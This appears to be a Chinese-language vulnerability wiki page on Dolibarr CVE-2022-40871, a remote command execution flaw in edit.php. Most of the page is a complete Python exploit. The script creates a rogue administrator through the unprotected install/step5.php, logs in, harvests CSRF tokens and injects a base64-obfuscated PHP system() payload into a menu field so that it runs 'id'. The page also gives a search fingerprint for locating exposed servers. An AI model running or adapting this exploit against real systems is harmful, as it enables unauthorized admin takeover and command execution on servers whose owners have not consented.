


Dolibarr edit.php 远程命令执行漏洞 CVE-2022-40871¶
漏洞描述¶
Dolibarr edit.php 存在远程命令执行漏洞，攻击者通过逻辑漏洞创建管理员后可以通过后台漏洞获取服务器权限
漏洞影响¶
Dolibarr <= 15.0.3
网络测绘¶
"Dolibarr"
漏洞复现¶
登录页面

利用POC 创建用户进行命令执行

漏洞POC¶
import requests
from requests.packages import urllib3
import time
import random
import sys
import re
sess = requests.Session()
pcre = re.compile(r'name=\"token\"\s+value=\"([^>]+)\"\s*[/]*>')
def request(method, url, headers=None, data=None, proxies=None, timeout=30):
i = 1
urllib3.disable_warnings()
resp = None
proxies = proxies
while i <= 3:
try:
resp = sess.request(method=method, url=url, headers=headers,
data=data, proxies=proxies, timeout=timeout, verify=False)
break
except requests.exceptions.TooManyRedirects:
break
except requests.exceptions.ConnectionError as e:
time.sleep(2 + random.randint(1, 4))
except (requests.exceptions.ConnectTimeout, requests.exceptions.ReadTimeout, requests.exceptions.Timeout):
time.sleep(2 + random.randint(1, 4))
finally:
i += 1
if i > 3:
print('[-]Error retrieve with max retries: {}'.format(url))
return resp
def exp():
if len(sys.argv) < 2:
sys.exit('Usage: python3 {} http://xxxxx.com/'.format(sys.argv[0]))
if sys.argv[1][-1] == '/':
base = sys.argv[1].rsplit('/', 1)[0]
else:
base = sys.argv[1]
headers = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36',
}
#proxies = {'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
proxies = None
res = request('GET', base, headers=headers, proxies=proxies)
err_flag = 1
if res:
print('[*] Attempt to add admin.')
base = res.url.rsplit('/', 1)[0]
add_admin_url = '{}/install/step5.php'.format(base)
data = {
'action': 'set',
'login': 'testadmins',
'pass': 'testadmins',
'pass_verif': 'testadmins',
'selectlang': 'auto'
}
headers['Content-Type'] = 'application/x-www-form-urlencoded'
res = request('POST', add_admin_url, headers=headers, data=data, proxies=proxies)
if res and 'created successfully' in res.text or ('exists' in res.text and 'Email already exists' not in res.text):
csrf_token_url = '{}/index.php'.format(base)
res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
if res:
print('[*] Attempt to login.')
try:
csrf_token = pcre.findall(res.text)[0]
except:
csrf_token = ''
login_url = '{}/index.php?mainmenu=home'.format(base)
headers['Referer'] = csrf_token_url
data = {
'token':'{}'.format(csrf_token),
'actionlogin': 'login',
'loginfunction': 'loginfunction',
'username': 'testadmins',
'password': 'testadmins'
}
res = request('POST', login_url, headers=headers, data=data, proxies=proxies)
if res and res.status_code == 200 and 'logout.php' in res.text:
print('[*] Attempt to get csrf token.')
csrf_token_url = '{}/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy_menu'.format(base)
res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
if res:
print('[*] Attemp to inset evil data.')
try:
csrf_token = pcre.findall(res.text)[0]
except:
csrf_token = ''
inset_evil_url = '{}/admin/menus/edit.php'.format(base)
data = {
'token': '{}'.format(csrf_token),
'action': 'add',
'menuId': random.randint(10000, 99999),
'menu_handler': 'eldy_menu',
'user': 2,
'type': 1,
'titre': 1,
'url': 1,
'enabled': "1==1));$d=base64_decode('ZWNobyAnPCEtLScmJmVjaG8gcHduZWQhISEmJmlkJiZlY2hvJy0tPic=');$a=base64_decode('c3lzdGVt');$a($d);//" #execute id command，bypass core/lib/function.lib.php limits
}
res = request('POST', inset_evil_url, headers=headers, data=data, proxies=proxies)
if res and res.history[0].status_code == 302:
print('[*] Attemp to execute command.')
request('GET', '{}/admin/menus/index.php'.format(base), headers=headers, proxies=proxies)
time.sleep(3)
evil_url = '{}/admin/index.php'.format(base)
res = request('GET', evil_url, headers=headers, proxies=proxies)
if res and res.status_code == 200 and 'pwned!!!' in res.text:
print(res.text[:100])
print('[+] vulnrable! {}'.format(base))
err_flag = 0
if err_flag:
print('[-] {} is not exploitable.'.format(sys.argv[1]))
exp()